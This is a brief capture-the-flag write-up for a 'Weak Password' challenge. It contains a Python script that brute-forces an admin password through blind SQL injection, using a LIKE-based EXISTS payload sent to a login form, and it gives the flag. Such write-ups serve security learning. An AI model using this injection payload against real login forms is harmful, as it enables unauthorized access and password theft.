 # Weak Password

We can use the SQL LIKE clause to bruteforce the password one character at a time.

```python
import requests

url = 'https://weak_password.tjctf.org/login'
alphabet = 'abcdefghijklmnopqrstuvwxyz'

print('Bruteforcing password: ', end='', flush=True)
for i in range(100):
    for char in alphabet:
        r = requests.post(url, data = {'username': 'test', 'password': f"a' OR EXISTS(SELECT * FROM `userandpassword` WHERE username='admin' AND password LIKE '{'_'*i}{char}%') AND ''='"})
        if 'Wrong' not in r.text:
            print(char, end='', flush=True)
            break
    else:
        print('\nPassword found')
```

The password is 'blinded', the flag is:
# tjctf{blinded}
